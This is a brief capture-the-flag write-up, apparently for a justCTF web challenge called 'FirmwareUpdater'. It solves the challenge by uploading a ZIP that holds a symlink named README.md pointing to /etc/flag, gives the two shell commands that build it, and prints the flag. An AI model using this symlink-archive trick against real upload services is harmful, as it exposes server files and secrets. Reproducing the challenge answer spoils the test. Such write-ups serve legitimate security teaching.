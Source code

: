[../](../../)

# FirmwareUpdater

## WEB - Points: 106

> This device need a firmware! Upload and execute ASAP!

## Solution

Create a ZIP file that contains a symlink to `/etc/flag` with the name `README.md`:

	$ ln -s /etc/flag README.md
	$ zip --symlinks -u empty.zip README.md

Upload the file and the flag is printed out.

flag: `justCTF{A_Fin3_W4y_T0_Upd4t3_m3_y0}`
